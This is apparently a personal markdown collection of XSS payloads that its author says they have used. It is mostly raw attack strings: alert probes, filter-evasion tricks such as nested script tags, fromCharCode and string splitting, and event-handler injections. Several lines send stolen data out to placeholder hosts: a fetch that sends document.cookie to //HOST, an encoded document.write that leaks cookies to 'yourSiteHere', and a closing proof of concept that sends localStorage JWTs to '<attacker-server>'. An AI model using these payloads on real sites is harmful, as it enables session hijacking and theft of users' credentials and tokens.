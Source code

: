 ## This will be a collection of XSS JavaScript Payloads I have used



"><h1>test</h1>
'+alert(1)+'
"onmouserover="alert(1)
http://"onmouseover="alert(1)
<body onload=alert(1)>



<img src=x onerror=alert(1) />
<img src=x onerror='alert(1)' />



<object data=javascript:alert(1)>
<x onmouseover=alert(1)>


<a onmouseover='alert(1)'>


<svg onload=alert(1)>

<svg onload=fetch('//HOST/?cookie='+document.cookie)>

<svg onload="document.body.innerHTML='<img src=//HOST/IMAGE>'">



“><script>alert(1)</script>
<script>alert(document.domain)</script>
<sc<script>ript>alert(1)</sc</script>ript>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

<script>eval("al"+"ert(1)")</script>
<script>eval("al"%2b"ert(1)")</script>
</script>;<script>alert(1)</script>
</script><script>alert(1)</script>


%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://yourSiteHere?c=%27%2bdocument.cookie%2b%27%22%20/%3E%27);%3C/script%3E
The above code looks like the below code before encoding
<script>document.write('<img src="yourSiteHere?c='%2bdocument.cookie%2b'" />');</script>

<hr>

 A typical way of rendering a standard cookie (without protections) in a JavaScript alert box is:
<script>alert(document.cookie)</script>

As data in localStorage is stored within an array
<script>alert(localStorage.getItem(‘key’))</script>
Example:
<script>alert(localStorage.getItem(‘ServiceProvider.kdciaasdkfaeanfaegfpe23.username@company.com.accessToken’))</script>
or This will convert all of the localStorage contents into a string and overcome this array barrier
<script>alert(JSON.stringify(localStorage))</script>

A complete XSS PoC to steal a JWT would look like this:
<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(localStorage);’--!>